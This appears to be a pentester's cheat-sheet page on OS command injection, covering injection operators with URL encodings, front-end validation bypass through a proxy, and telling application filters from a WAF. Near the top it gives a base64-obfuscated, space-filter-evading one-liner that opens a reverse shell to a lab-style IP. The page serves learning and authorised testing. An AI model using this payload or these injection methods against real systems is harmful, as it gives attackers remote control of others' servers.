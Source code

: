 ## delete


# Command Injection(CI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- `echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi85OTk5IDA+JjEK|base64${IFS}-d |bash` Send the payload through CI

# Detection
The process of detecting basic OS Command Injection vulnerabilities is the same process for exploiting such vulnerabilities. We attempt to append our command through various injection methods. If the command output changes from the intended usual result, we have successfully exploited the vulnerability.

## Command Injection Methods
To inject an additional command to the intended one, we may use any of the following operators:

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon          | ;                   | %3b                   | Both             |
| New Line           | \n                  | %0a                   | Both             |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown) |
| AND                | &&                  | %26%26                | Both (only if first succeeds) |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails) |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only) |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only) |


# Injecting Commands
## Bypassing Front-End Validation
The easiest method to customize the HTTP requests being sent to the back-end server is to use a web proxy that can intercept the HTTP requests being sent by the application. To do so, we can start Burp Suite.

# Identifying Filters
## Filter/WAF Detection
This error message can be displayed in various ways. In this case, we see it in the field where the output is displayed, meaning that it was detected and prevented by the PHP web application itself. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
